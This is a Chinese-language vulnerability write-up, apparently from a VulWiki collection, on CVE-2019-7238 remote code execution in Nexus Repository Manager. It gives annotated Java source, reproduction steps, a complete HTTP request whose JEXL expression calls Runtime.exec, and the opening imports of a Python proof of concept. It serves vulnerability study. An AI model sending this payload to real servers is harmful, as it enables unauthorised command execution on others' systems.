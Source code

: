     @Override
      @Guarded(by = STARTED)
      public boolean evaluate(final SelectorConfiguration selectorConfiguration, final VariableSource variableSource)
          throws SelectorEvaluationException
      {
        // 根据传入的 selectorConfiguration 生成对应的 selector 
        // 前面指定了 JexlSelector.TYPE ，这里将生成 JexlSelector
        Selector selector = createSelector(selectorConfiguration);

        try {
          // 调用 selector 的 evaluate 方法
          return selector.evaluate(variableSource);
        }
        catch (Exception e) {
          throw new SelectorEvaluationException("Selector '" + selectorConfiguration.getName() + "' evaluation in error",
              e);
        }
      }

### 漏洞复现

参考官方文档：https://help.sonatype.com/repomanager3/configuration/repository-management\#RepositoryManagement-CreatingaQuery

其对应接口位置如下图![3.jpeg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId26.jpg)如果是新搭建的环境，为复现成功，还需要先往现有的Repository添加asset。这样在查询确实存在asset后，才会进一步根据`whereClause`对查询结果asset进行筛选，也才会对`whereClause`进行表达式解析。不过在实际环境中，Repository中早就各种asset了。下面随便选了一个logging.jar上传。![4.jpeg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId27.jpg)

    POST /service/extdirect HTTP/1.1
    Host:www.0-sec.org:8081
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
    Content-Type: application/json
    Content-Length: 308
    Connection: close

    {"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId28.png)

### poc

    cve-2019-7238.py

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId30.png)

    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    import urllib3
    import requests
    import base64
    import json
    import sys
